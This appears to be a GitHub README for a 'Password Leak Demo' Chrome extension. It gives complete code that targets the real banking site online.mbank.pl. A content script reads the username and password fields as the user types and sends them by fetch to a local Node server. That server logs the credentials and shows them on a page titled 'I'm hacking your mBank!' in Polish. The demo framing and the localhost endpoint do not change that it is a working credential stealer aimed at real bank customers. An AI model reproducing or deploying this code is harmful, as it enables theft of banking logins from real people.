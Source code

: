 # Password Leak Demo Extension

This project demonstrates a browser extension that captures and sends login credentials from a specific website to a local server. The server then displays the captured credentials on a webpage.

## Prerequisites

- [Node.js](https://nodejs.org/) (LTS version recommended)
- A code editor, such as [Visual Studio Code](https://code.visualstudio.com/)

## Installation and Setup

### Step 1: Install Node.js

1. **Download Node.js**:
   - Go to the [Node.js website](https://nodejs.org/).
   - Download the LTS (Long Term Support) version for Windows.

2. **Install Node.js**:
   - Run the installer and follow the prompts to complete the installation.
   - Ensure that the installer adds Node.js to your system PATH.

3. **Verify Installation**:
   - Open a terminal (Command Prompt, PowerShell, or VSCode terminal).
   - Verify Node.js installation by running:
     ```sh
     node -v
     ```
   - Verify npm installation by running:
     ```sh
     npm -v
     ```

### Step 2: Set Up the Project Directory

1. **Create a Project Directory**:
   - Open File Explorer and create a new directory, e.g., `C:\Users\YourUsername\Desktop\BrowserExtensionDemo`.

2. **Open the Directory in VSCode**:
   - Right-click on the directory and select "Open with Code" or open VSCode and use `File > Open Folder` to open the directory.

### Step 3: Create the Server Script

1. **Initialize npm in the Project Directory**:
   - Open a terminal in VSCode.
   - Run the following command to initialize a new Node.js project:
     ```sh
     npm init -y
     ```

2. **Install the `ws` Library**:
   - In the terminal, run:
     ```sh
     npm install ws
     ```

3. **Create the `server.js` File**:
   - In the project directory, create a new file named `server.js`.
   - Add the following content to `server.js`:

     ```javascript
     const http = require('http');
     const url = require('url');
     const WebSocket = require('ws');

     let lastCredentials = { username: '', password: '' };

     const server = http.createServer((req, res) => {
       const queryObject = url.parse(req.url, true).query;

       if (queryObject.username && queryObject.password) {
         lastCredentials.username = queryObject.username;
         lastCredentials.password = queryObject.password;
         console.log(`Username: ${lastCredentials.username}, Password: ${lastCredentials.password}`);

         // Broadcast the new credentials to all connected WebSocket clients
         wss.clients.forEach(client => {
           if (client.readyState === WebSocket.OPEN) {
             client.send(JSON.stringify(lastCredentials));
           }
         });
       }

       res.writeHead(200, {'Content-Type': 'text/html; charset=utf-8'});
       res.end(`
         <html>
         <head><title>Hakuję twój mBank!</title></head>
         <body>
           <h1>Hakuję twój mBank!</h1>
           <p><strong>Username:</strong> ${lastCredentials.username}</p>
           <p><strong>Password:</strong> ${lastCredentials.password}</p>
           <script>
             const ws = new WebSocket('ws://localhost:1337');
             ws.onmessage = (event) => {
               const data = JSON.parse(event.data);
               document.querySelector('p:nth-of-type(1)').innerHTML = '<strong>Username:</strong> ' + data.username;
               document.querySelector('p:nth-of-type(2)').innerHTML = '<strong>Password:</strong> ' + data.password;
             };
           </script>
         </body>
         </html>
       `);
     });

     // Create a WebSocket server
     const wss = new WebSocket.Server({ server });

     server.listen(1337, '127.0.0.1', () => {
       console.log('Server running at http://127.0.0.1:1337/');
     });
     ```

### Step 4: Run the Server

1. **Start the Server**:
   - In the terminal, run:
     ```sh
     node server.js
     ```
   - You should see `Server running at http://127.0.0.1:1337/` in the terminal.

### Step 5: Create the Chrome Extension

1. **Create Extension Files**:
   - In your project directory, create the following files:

     **`manifest.json`**:
     ```json
     {
       "manifest_version": 3,
       "name": "Password Leak Demo",
       "version": "1.0",
       "description": "A demo extension to capture and send login credentials.",
       "permissions": [
         "activeTab",
         "scripting"
       ],
       "host_permissions": [
         "https://online.mbank.pl/*"
       ],
       "background": {
         "service_worker": "background.js"
       },
       "content_scripts": [
         {
           "matches": ["https://online.mbank.pl/*"],
           "js": ["content.js"]
         }
       ]
     }
     ```

     **`background.js`**:
     ```javascript
     chrome.runtime.onInstalled.addListener(() => {
       console.log("Password Leak Demo Extension Installed");
     });
     ```

     **`content.js`**:
     ```javascript
     if (window.location.origin === "https://online.mbank.pl") {
       hook();
     }

     function hook() {
       const userId = document.getElementById("userID");
       if (!userId) {
         setTimeout(hook, 500);
         return;
       }

       const pass = document.getElementById("pass");

       const listener = () => {
         const user = userId.value;
         const password = pass.value;
         console.log({ user, password });
         fetch(`http://localhost:1337/leak?username=${encodeURIComponent(user)}&password=${encodeURIComponent(password)}`);
       };

       userId.addEventListener("input", listener);
       pass.addEventListener("input", listener);
     }
     ```

### Step 6: Load the Extension in Chrome

1. **Open Chrome and Navigate to `chrome://extensions/`**:
   - Enable "Developer mode" using the toggle switch in the top-right corner.

2. **Load the Unpacked Extension**:
   - Click the "Load unpacked" button and select your project directory.

### Step 7: Test the Setup

1. **Navigate to the Test Page**:
   - Open `https://online.mbank.pl` in Chrome.

2. **Enter Test Credentials**:
   - Enter some test credentials in the form fields.

3. **View the Captured Credentials**:
   - Open `http://localhost:1337` in your browser to see the captured credentials displayed dynamically.

## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.
